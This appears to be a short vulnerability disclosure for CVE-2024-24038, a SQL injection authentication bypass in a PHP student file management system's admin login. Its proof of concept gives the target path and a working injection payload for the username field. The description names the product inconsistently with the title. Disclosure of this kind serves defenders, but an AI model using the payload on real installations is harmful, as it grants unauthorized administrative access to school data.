 #  CVE-2024-24038 : Student File Managment System - Authentication Bypass
+ **Exploit Title:** CVE-2024-24038 : Student File Managment System - Authentication Bypass
+ **Date:** 2024-11-01
+ **Exploit Author:** Tuba Kavgacı
+ **Vendor Homepage:** https://code-projects.org/student-file-management-system-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/3e3502a1-11ea-4e87-9d05-12d6204789d6
+ **Version:** 2024
+ **Tested on:** Windows 11 Home + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-2024-24038

## Description:
Simple School Managment System 1.0 allows Authentication Bypass via the `username` and `password` parameters at "http://localhost/sfms/admin/". 

## Proof of Concept:
+ Go to this address: "http://localhost/sfms/admin"
+ username : `'or 1=1-- -` password : `1`  and log in
+ Authentication Bypass Successful !

![Ekran görüntüsü 2024-01-12 003346](https://github.com/tubakvgc/CVEs/assets/74067343/736b3cd8-6919-4efd-9c31-590d9f48782b)

![Ekran görüntüsü 2024-01-12 003356](https://github.com/tubakvgc/CVEs/assets/74067343/57f8391c-4121-40b1-9d0a-9785c1cd27e7)
